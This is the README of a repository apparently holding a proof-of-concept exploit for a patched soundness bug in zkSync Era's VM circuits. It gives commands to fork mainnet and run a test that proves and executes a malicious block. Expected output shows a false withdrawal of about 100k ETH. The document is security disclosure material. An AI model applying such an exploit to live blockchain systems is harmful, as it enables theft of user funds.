 # zkSync Era Circuit Bug Exploit PoC

This repo contains a proof-of-concept exploit for a soundness bug in the zkSync Era VM circuits found by ChainLight. For more details on the bug, check out the [full write-up](https://blog.chainlight.io/uncovering-a-zk-evm-soundness-bug-in-zksync-era-f3bc1b2a66d8).

## Running the PoC

From this repo, run
```
export RPC_MAINNET=[your mainnet RPC url]

# optional: copy the pre-populated storage slot cache for the target block
# this speeds up the PoC and avoids greatly reduces queries to your RPC url
mkdir -p $HOME/.foundry/cache/rpc/mainnet && cp data/18083999 $HOME/.foundry/cache/rpc/mainnet

forge test -vv
```

The PoC will fork mainnet at a block before the issue was patched, and submit and execute a maliciously proven block. The malicious block exploits the soundess issue by emitting a false withdrawal for 100k ETH.

Note: the PoC will need to access many storage slots, so will query the RPC url many times. If you'd like to speed this up or reduce the number of queries, you can use the pre-populated foundry fork cache.

The expected output is

```
Running 1 test for src/PoC.sol:PoC
[PASS] testExploit() (gas: 1021668869)
Logs:
  replaying proofs for previously committed blocks...
  executing previously committed blocks...
  199391
  committing exploit block...
  proving exploit block...
  executing exploit block...
  balance before withdrawal:  3221289529119249900
  balance after withdrawal:  100003020934235865065763
```

